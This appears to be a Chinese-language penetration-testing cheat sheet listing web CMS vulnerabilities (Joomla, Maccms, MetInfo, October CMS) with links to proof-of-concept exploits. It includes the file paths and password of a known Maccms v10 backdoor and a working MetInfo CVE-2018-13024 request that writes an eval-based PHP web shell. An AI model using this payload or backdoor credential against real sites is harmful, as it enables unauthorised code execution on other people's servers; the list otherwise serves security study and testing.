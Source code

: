 **CVE-2021-23132**
- POC | Payload | exp
    - [HoangKien1020/CVE-2021-23132](https://github.com/HoangKien1020/CVE-2021-23132)

---

### Maccms

**Maccms v10后门**
- POC | Payload | exp
    - http://www.360doc.com/content/20/0203/14/30583588_889434397.shtml
    ```
    maccms10\extend\upyun\src\Upyun\Api\Format.php
    maccms10\extend\Qcloud\Sms\Sms.php
    密码 WorldFilledWithLove
    ```

---

### MetInfo

> 官网: https://www.metinfo.cn/

**相关文章**
- [MetInfo5.3.19安装过程过滤不严导致Getshell](https://bbs.ichunqiu.com/thread-35305-1-17.html)
- [MetInfo6.0.0漏洞集合(一)](https://bbs.ichunqiu.com/thread-43416-1-7.html)
- [MetInfo6.1.0 漏洞(二)](https://bbs.ichunqiu.com/thread-43625-1-4.html)
- [Metinfo 6.1.2 SQL注入](https://bbs.ichunqiu.com/thread-46687-1-1.html)
- [metinfo最新版本后台getshell](https://bbs.ichunqiu.com/thread-29686-1-2.html)
- [Metinfo7的一些鸡肋漏洞](https://evi1.cn/post/metinfo7-bug/)
- [Metinfo7.0 SQL Blind Injection](https://github.com/T3qui1a/metinfo_sqlinjection/issues/1)

**CVE-2018-13024**
- 描述

    远程攻击者可通过向 admin/column/save.php 文件发送 `module` 参数利用该漏洞向 .php 文件写入代码并执行该代码.

- 影响版本
    - MetInfo 5.3.16
    - MetInfo 6.0.0

- 相关文章
    - [CVE-2018-13024复现及一次简单的内网渗透](https://www.freebuf.com/news/193748.html)

- POC | Payload | exp

    - `admin/column/save.php?name=123&action=editor&foldername=upload&module=22;@eval($_POST[1]);/*`

---

### October

> 官网: http://octobercms.com

**October CMS 1.0.412 - Multiple Vulnerabilities**
- POC | Payload | exp
    - [October CMS 1.0.412 - Multiple Vulnerabilities](https://www.exploit-db.com/exploits/41936)

---